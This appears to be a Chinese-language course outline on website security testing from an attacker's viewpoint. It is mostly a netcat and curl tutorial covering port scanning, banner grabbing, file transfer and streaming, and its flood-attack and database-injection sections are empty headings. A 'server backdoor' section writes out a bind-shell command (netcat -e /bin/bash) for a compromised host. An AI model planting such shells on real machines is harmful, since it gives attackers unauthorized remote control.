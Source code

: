 [TOC]
#【课课程介绍】
“矛与盾”互联网中的黑客与红客的斗争，只有知己知彼，才能游刃有余，本次课程咱们站在“黑客”的角度来扫描和测试一个网站的安全性，提出网络安全修改建议，筑起网站服务器的防御盾牌
#【课程知识点】
1. Linux系统常用终端命令
2. 网络入侵利器，瑞士军刀netcat的使用
3. 网站端口扫描，服务器植入后门
4. webbench和ab高并发请求，海量数据攻击
5. 数据库注入与修改

#【课程详情】

## Linux系统常用终端命令

## 网络入侵利器，瑞士军刀netcat的使用
netcat是网络工具中的瑞士军刀，它能通过TCP和UDP在网络中读写数据。通过与其他工具结合和重定向，你可以在脚本中以多种方式使用它

netcat所做的就是在两台电脑之间建立链接并返回两个数据流，在这之后所能做的事就看你的想像力了。你能建立一个服务器，传输文件，与朋友聊天，传输流媒体或者用它作为其它协议的独立客户端

### 端口扫描
端口扫描经常被系统管理员和黑客用来发现在一些机器上开放的端口，帮助他们识别系统中的漏洞。

```
nc -z -v -n -w 1 server_ip 1-1000
```
### 查看banner
Banner是一个文本，Banner是一个你连接的服务发送给你的文本信息。当你试图鉴别漏洞或者服务的类型和版本的时候，Banner信息是非常有用的。但是，并不是所有的服务都会发送banner。

打印运行在这个端口上服务的banner信息

```
nc -v server_ip 21
```
### 即时通讯
假如你想和你的朋友聊聊，有很多的软件和信息服务可以供你使用。但是，如果你没有这么奢侈的配置，比如你在计算机实验室，所有的对外的连接都是被限制的，你怎样和整天坐在隔壁房间的朋友沟通那？不要郁闷了，netcat提供了这样一种方法，你只需要创建一个Chat服务器，一个预先确定好的端口，这样子他就可以联系到你了。

server
```
nc -l 10000
```

clent
```
nc server_ip 10000
```

### 文件传输

大部分时间中，我们都在试图通过网络或者其他工具传输文件。
有很多种方法，比如FTP,SCP,SMB等等，但是当你只是需要临时或者一次传输文件，真的值得浪费时间来安装配置一个软件到你的机器上嘛。
假设，你想要传一个文件file.txt从A到B。

让A作为服务器，B为客户端。

server
```
nc -l 10000 < file.txt
```

client
```
$nc -n server_ip 10000 > file.txt
```

备注：

	'<' : 输入重定向
	'>' : 输出重定向


### 流视频
server
```
cat video.avi | nc -l 10000
```
这里我们只是从一个视频文件中读入并重定向输出到netcat客户端

client
```
nc server_ip 10000 | mplayer -vo x11 -cache 3000 -
```

这里我们从socket中读入数据并重定向到mplayer。

备注：
	sudo apt-get install smyplayer

### 指定源端口
假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。
server
```
nc -l 10000
```
client
```
nc server_ip 10000 -p 25
```
使用1024以内的端口需要root权限。
该命令将在客户端开启25端口用于通讯，否则将使用随机端口。

### 指定源地址
假设你的机器有多个地址，希望明确指定使用哪个地址用于外部数据通讯。我们可以在netcat中使用-s选项指定ip地址。

server
```
nc -u -l 10000 < file.txt
```
client
```
nc -u server_ip 10000 -s client_ip > file.txt
```
该命令将绑定地址172.31.100.5。
这仅仅是使用netcat的一些示例。

### telnet客户端

```
nc -t server_ip
```

### 服务器后门
常见的netcat有两种版本，GNU和OPENBSD版本，ubuntu14.04自带的时OPENBSD版本的。不支持-e参数。

请下载安装GNU版本
```
http://netcat.sourceforge.net/
```
编译安装

	./configure
	make
	sudo make install

因为ubuntu已安装netcat，所以出现了重名,查看是否安装成功

	/usr/local/bin/netcat -h


server(肉鸡)
```
/usr/local/bin/netcat -l  -p 10000 -e /bin/bash
```

client(攻击者)
```
/usr/local/bin/netcat server_ip 10000
```

至于怎么在肉鸡上安装netcat，我就不深入探讨了(PS:有点不道德)

### 参数说明

可以运行在TCP或者UDP模式，默认是TCP

	-u 参数调整为udp.
	-z 参数告诉netcat使用0 IO,连接成功后立即关闭连接， 不进行数据交换
	-v 参数指使用冗余选项,即详细输出
	-n 参数告诉netcat 不要使用DNS反向查询IP地址的域名
	-s 指定本地选用ip地址
	-i 延迟秒数,设置时间间隔，以便传送信息及扫描通信端口
	-l 使用监听模式，监控传入的资料
	-p 设置本地主机使用的通信端口
	-w 超时秒数,设置等待连线的时间


## curl工具

### 基本用法
```
curl http://www.sina.com.cn
```
### 获取响应头部信息
```
curl -I http://www.sina.com.cn
```
### 下载保存
```
curl http://www.c.itcast.cn > itcast.html
curl -o index.html http://www.itcast.cn
curl -O http://www.itcast.cn/files/image/201412/20141231101944337.jpg
```
备注：

	-o:指定保存文件名
	-O:保留源文件名
	
## webbench和ab高并发请求，海量数据攻击

## 数据库注入与修改
